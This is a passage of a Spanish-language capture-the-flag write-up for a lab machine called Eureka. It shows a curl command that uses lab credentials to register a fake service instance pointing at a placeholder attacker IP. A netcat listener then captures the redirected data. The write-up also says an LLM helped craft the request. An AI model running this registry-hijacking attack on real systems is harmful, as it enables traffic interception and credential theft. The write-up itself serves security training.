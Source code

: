 en el mismo blog, nos dicen como podemos comunicarnos con el servidor para levantar o reemplazar un servicio desde una solicitud de burpsuite
<img src="/images/writeup-eureka/Pasted image 20250708220114.png">

yo quise hacerlo desde la terminal con una solicitud curl, asi que pasando el json a un llm y detallando que era lo que quería hacer, además de que lo pulí un poco, basándome en el propio servicio que nos muestra la pagina:
<img src="/images/writeup-eureka/Pasted image 20250708220347.png">
*puedes verlo visitando /eureka/apps/USER-MANAGEMENT-SERVICE*

después de varios fallos y limpiando un poco la solicitud mientras hacia pruebas, finalmente este fue el comando que me funciono:
```
 curl -k -X POST http://EurekaSrvr:0scarPWDisTheB3st@10.129.232.59:8761/eureka/apps/USER-MANAGEMENT-SERVICE -H "Content-Type:application/json" -d '{
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "app": "USER-MANAGEMENT-SERVICE",
    "hostName": "<3vil ip aqui>",
    "ipAddr": "<3vil ip aqui>",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": {
      "$": 8081,
      "@enabled": "true"
    },
    "homePageUrl": "http://<3vil ip aqui>:8081/",
    "statusPageUrl": "http://<3vil ip aqui>:8081/status",
    "healthCheckUrl": "http://<3vil ip aqui>:8081/health",
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'

```
*nota: donde indica "3vil ip aqui" es para evitar confusiones, alli va nuestra ip de atacantes*

antes de mandar la solicitud, estaremos en escucha con netcat, aunque en el blog nos indican usar una pagina maliciosa, no sera necesario en este caso, lo intente de ambos modos (con y sin pagina) y de igual modo recibiras la data robada:

comando netcat para estar en escucha:
```bash
nc -lnvp 8081
```

el servidor se vera de este modo:
<img src="/images/writeup-eureka/Pasted image 20250708221820.png">

en un minuto recibiras respuesta
